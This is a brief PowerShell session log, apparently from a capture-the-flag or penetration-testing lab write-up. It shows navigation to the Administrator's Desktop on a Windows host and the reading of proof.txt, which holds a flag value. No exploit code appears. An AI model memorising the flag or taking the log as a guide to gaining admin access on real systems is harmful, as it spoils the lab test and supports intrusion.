PS C:\Windows\system32> cd cd \Users
PS C:\Windows\system32> cd \Users
PS C:\Users> cd Administrator
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-r---        4/29/2020   9:26 PM                3D Objects                                                            
d-r---        4/29/2020   9:26 PM                Contacts                                                              
d-r---         5/2/2022   7:52 AM                Desktop                                                               
d-r---        4/29/2020   9:26 PM                Documents                                                             
d-r---         5/2/2022   7:46 AM                Downloads                                                             
d-r---        4/29/2020   9:26 PM                Favorites                                                             
d-r---        4/29/2020   9:26 PM                Links                                                                 
d-r---        4/29/2020   9:26 PM                Music                                                                 
d-r---         5/2/2022   7:49 AM                OneDrive                                                              
d-r---        4/29/2020   9:34 PM                Pictures                                                              
d-r---        4/29/2020   9:26 PM                Saved Games                                                           
d-r---        4/29/2020   9:29 PM                Searches                                                              
d-r---        5/12/2020   2:04 AM                Videos                                                                


PS C:\Users\Administrator> cd Desktop
PS C:\Users\Administrator\Desktop> type proof.txt
ff522556faf49d1e1bcfc3c7f06d9f31
```

